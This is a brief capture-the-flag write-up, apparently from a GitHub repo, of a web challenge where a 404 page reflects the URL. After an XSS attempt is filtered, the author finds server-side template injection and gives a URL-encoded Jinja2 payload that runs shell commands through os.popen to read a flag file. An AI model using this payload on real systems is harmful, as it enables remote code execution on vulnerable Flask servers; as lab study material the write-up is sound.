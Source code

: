 ![image](https://github.com/nhattanhh/CTF/assets/130430279/1add84b0-1365-41e1-9db1-02bce8f0aeeb)

- Look at the title, we will immediately think of problems when the website has a 404 error.

- So let make it.

![image](https://github.com/nhattanhh/CTF/assets/130430279/193664da-3686-4976-b994-ca5c1b3dff57)

![image](https://github.com/nhattanhh/CTF/assets/130430279/5e660d3f-1f56-4968-91eb-69caab92469a)

- I will change to another url and see what we got here.

![image](https://github.com/nhattanhh/CTF/assets/130430279/94cbcee7-138f-456e-9f2f-729edfcac77f)

- Ok! This line has changed, i try to XSS but it has filter.

![image](https://github.com/nhattanhh/CTF/assets/130430279/94e5a4b9-7199-419a-8eef-a79e9af6da00)

- Try another and i see that i can use SSTI.

![image](https://github.com/nhattanhh/CTF/assets/130430279/51420a89-50c3-43e4-83b8-366c31ab4ee6)

- So use this payload to get the flag, flag will be hidden in ~/root/flag.txt~

- #%7B%7B%20config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cd%20..;cd%20root;cat%20flag.txt").read()%20%7D%7D#

![image](https://github.com/nhattanhh/CTF/assets/130430279/0bec9bd2-1c5b-437c-8ebc-2ea1cdf3c4d5)
